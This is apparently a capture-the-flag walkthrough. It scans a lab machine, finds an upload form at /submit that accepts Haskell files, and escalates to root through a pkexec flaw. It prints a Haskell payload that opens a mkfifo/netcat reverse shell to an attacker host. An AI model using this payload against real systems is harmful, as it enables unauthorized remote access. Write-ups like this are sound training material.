









# Port Scanning
```bash
❯ rustscan -a 10.80.190.201 -- -A

Open 10.80.190.201:22
Open 10.80.190.201:5001

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
|   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
5001/tcp open  http    syn-ack ttl 62 Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-title: Homepage
|_http-server-header: gunicorn/19.7.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 4.X|5.X|6.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:6 cpe:/h:adtran:424rg
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Linux 5.14 - 6.8 (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```
First I visited on port 5001 and clicked the available links. But found nothing suspicious. <br/>
 <br/>
 <br/>
 <br/>
So perform directory bruteforcing. And found the directory `/submit` <br/>
 <br/>
I visited the directory. And found file upload option. <br/>
 <br/>
I previous I learned that I can only upload `.hs` files. With the following payload I uploaded file named `test.hs` <br/>
```hask
import System.Process (system)

main :: IO ()
main = do
    _ <- system "id"
    return ()
```
And found the following: <br/>
 <br/>
After that I crafted the following reverse shell payload and uploading it I got the shell. 
```hask
import System.Process (system)

main :: IO ()
main = do
    _ <- system "mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4545 > /tmp/f"
    return ()
```
 <br/>
The flag was in `/home/prof` directory. <br/>
# Privilege Escalation
I ran `linpeas.sh` and found that it has pkexec vulnerability.  <br/>
 <br/>
Abusing this I got root shell. <br/>
 <br/>
